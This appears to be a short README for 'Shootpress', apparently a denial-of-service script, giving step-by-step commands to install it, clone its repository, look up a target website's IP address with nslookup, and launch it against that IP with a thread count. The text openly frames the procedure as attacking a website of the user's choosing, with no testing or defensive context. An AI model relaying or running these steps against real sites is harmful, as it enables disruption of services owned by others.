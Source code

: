 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/ronidianpatisa/Shootpress/

Shootpress need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Shootpress<br>
$ python shootpress.py -s [ip Address] -t 135<br>
example:<br>
$ python shootpress.py -s 123.45.67.89 -t 135<br>
